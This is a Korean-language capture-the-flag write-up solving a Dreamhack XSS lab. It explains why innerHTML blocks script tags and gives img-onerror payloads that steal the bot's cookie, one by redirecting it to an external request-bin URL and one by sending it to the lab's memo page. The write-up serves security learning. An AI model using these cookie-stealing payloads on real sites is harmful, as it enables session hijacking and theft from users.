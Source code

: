 문제
==
![1](https://user-images.githubusercontent.com/73854324/158143422-bb2f57fa-da04-4175-badb-b72320312bfe.png)
<br>
==
문제를 풀어보고 나니, 다른 방법이 생각나서 추가한다.   
밑으로 쭉쭉 내려서 처음에 푼 방법을 먼저 보면 이해가 더 잘 된다.   
<br><br>
![1](https://user-images.githubusercontent.com/73854324/158157258-6ca79698-05c7-4ddf-8682-8f3f38e8b651.png)<br>
코드를 보면, 우리는 먼저 flag 페이지에 POST 방식으로 요청을 보낸다.   
그 후 check_xss 함수가 실행된다. (뒤 코드를 보면 결과를 알겠지만, 쿠키 값이 없다면 wrong?? 이 뜰 것이다.)   
![2](https://user-images.githubusercontent.com/73854324/158157261-40fe18a6-5f29-481a-9b29-9d59aa61071c.png)<br>
check_xss 함수의 내용은 이러하다.(하단)   
입력받은 파라미터와 쿠키값을 가지고, read_url 함수를 통해서 flag 값을 가진 봇이 링크에 접속한다.   
read_url 함수에서는 웹드라이버를 통해서 flag 값을 쿠키로 가진 채 해당 url에 접속하게 된다.<br>
## 그렇다면, 봇이 쿠키값을 가진 채 접속하게만 하고 요청 헤더의 쿠키값만 확인하면 된다.   
<br>
dreamhack 사이트 내에는, 여러 툴들이 존재한다. 
<br><br>  
![0](https://user-images.githubusercontent.com/73854324/158157253-84b4ea82-9f9a-4c46-8ed8-262b75b1cc55.png)<br>
https://tools.dreamhack.games/main   
해당 링크 내 Request Bin 은, 임의로 웹서버를 만든 것처럼 가상으로 방문자들의 정보를 알 수 있다.   
이 웹서버로 봇이 쿠키값을 가지고 접속하게만 하면 된다.   
실전으로 옮겨보았다.   
<br><br>
![3](https://user-images.githubusercontent.com/73854324/158157265-09b9806a-d126-4797-87d3-c5da739aac5c.png)<br>
할당받은 url은 https://qwtdbvz.request.dreamhack.games 이다.   

```
https://qwtdbvz.request.dreamhack.games?document.cookie
```

이 곳으로 접속하면, 쿠키값을 가진채로 그냥 봇이 접속 할 것 같다.   
vuln 페이지에서 xss 공격을 하기 위해서는 img 태그를 사용했었다.   
![4](https://user-images.githubusercontent.com/73854324/158157266-0a9455a1-546c-495e-a932-baa8d02926c3.png)<br>

```
<img src="/" onerror="location.href='https://qwtdbvz.request.dreamhack.games?'+document.cookie">
```

바로 주입시켜보았다.   
<br><br>
![5](https://user-images.githubusercontent.com/73854324/158157269-8eec9af3-e3c1-4374-bd93-f78c7ac9aa57.png)<br>
요청 값으로 쿠키가 들어있다.   
<br><br><br><br><br><br>
처음에 푼 방법
==
![2](https://user-images.githubusercontent.com/73854324/158143428-737e818b-03ad-464e-aa1e-a697459697fa.png)<br>
메인페이지는 뭐.. xss-1 이랑 다를 바 없었다.   
(심지어 XSS-2 문제인데도, XSS-1 이라 적힌 것 까지)   
<br><br>
![3](https://user-images.githubusercontent.com/73854324/158143430-0e9b3f14-7553-4158-b43a-4411dbb9718b.png)<br>
xss-1 문제를 풀어보았으니, 바로 vuln 페이지로 들어갔는데,   
제대로 스크립트가 param 으로 전달되었음에도 팝업창이 뜨지 않았다.   
<br><br>
![4](https://user-images.githubusercontent.com/73854324/158143433-127f17f5-fcad-4944-89eb-3c1b90461149.png)<br>
note 페이지로 들어갔다.   
딱히 xss-1 문제랑은 다를 바 없어보인다.   
<br><br>
![5](https://user-images.githubusercontent.com/73854324/158143436-f3482d1a-6b92-43f5-bbc0-897f7b8fd830.png)<br>
flag 페이지 역시 마찬가지.   
<br><br>
![6](https://user-images.githubusercontent.com/73854324/158143440-12a9c843-0fc8-464a-acea-0eb97ef6fb7c.png)<br>
먼저 스크립트가 먹히지 않는 vuln 페이지의 소스를 살펴보았다.   
찾아보니, URLSearchParams 객체는, URL(GET방식) 로 파라미터를 받을 때 ? 뒤에 적히게 되는데   
? 를 제외한 파라미터 값들을 수정하거나 확인? 등 여러 용도로 사용할 수 있다고 한다.   
그리고 내 눈에 띄었던 점은, innerHTML 이었다.   
<br><br>
![7](https://user-images.githubusercontent.com/73854324/158143444-e45def26-b631-4764-a7db-db36e3565a10.png)<br>

```
https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML
https://www.w3.org/TR/2008/WD-html5-20080610/dom.html#innerhtml0
```

innerHTML 을 사용할 경우, <script> 구문이 먹혔기 때문에 HTML5 로 들어오면서 막혔다고 한다.   
innerHTML 과 비슷한 용도로 사용할 수 있는 innerText, textContent 가 있었다.   
<br>
대충 잠깐 정리해보자면,   
textContext 는 원시 텍스트(only 텍스트)만 결과물로 출력된다.   
innerText 는 html 태그들이 적용되지 않고 보이는 텍스트들만 결과물로 출력된다.   
innerHTML 는 html 태그들이 모두 포함되어 결과물로 출력된다.   

```
3가지 차이점에 대해 포스팅해놓으신 글
https://hianna.tistory.com/483
```

## 아무튼 XSS 스크립트를 실행시키기 위해서는 script 를 사용하지 않고 해야한다는 것을 알았다   
![8](https://user-images.githubusercontent.com/73854324/158143448-d5cb401e-7d48-4e52-9b85-aa3441f3e877.png)<br>
그렇다면, 전에 잠깐 알고있었던 img 태그의 onerror 속성을 이용해보기로 했다.   
보통 img src 에 파일명을 적는데, 없을만한 파일명을 적어주면 흔히 '엑박' 이 뜬다.   
이렇게 오류가 발생했을 경우, onerror 내부의 명령이 실행된다.   
<br><br>
![9](https://user-images.githubusercontent.com/73854324/158143449-1d3c4348-429a-43ac-ad05-eb4d5a832e39.png)<br>
onerror 를 이용해서 alert 창의 실행을 성공했다.   
그렇다면, onerror 내부에 xss 스크립트를 넣어준다면 쿠키를 탈취할 수 있을 것이다.   
<br><br>
![10](https://user-images.githubusercontent.com/73854324/158143450-da728bc0-1620-4bcf-8169-f4b0113832cb.png)<br>
```
주입 구문
<img src="/" onerror="location.href='/memo?memo='+document.cookie">
```


![11](https://user-images.githubusercontent.com/73854324/158143451-5c204d54-62b0-46d1-bdbe-0da2926dad37.png)<br>
성공적으로 되었다.   
이제 memo 페이지로 돌아가서 쿠키값을 확인해보자.   
(쿠키값에 flag 가 저장되어있고, 제대로 탈취되었는지 보러 가보자)   
<br><br>
![12](https://user-images.githubusercontent.com/73854324/158147825-c431f741-929f-4c49-8027-9f46f26f8dee.png)<br>
flag 값 획득 성공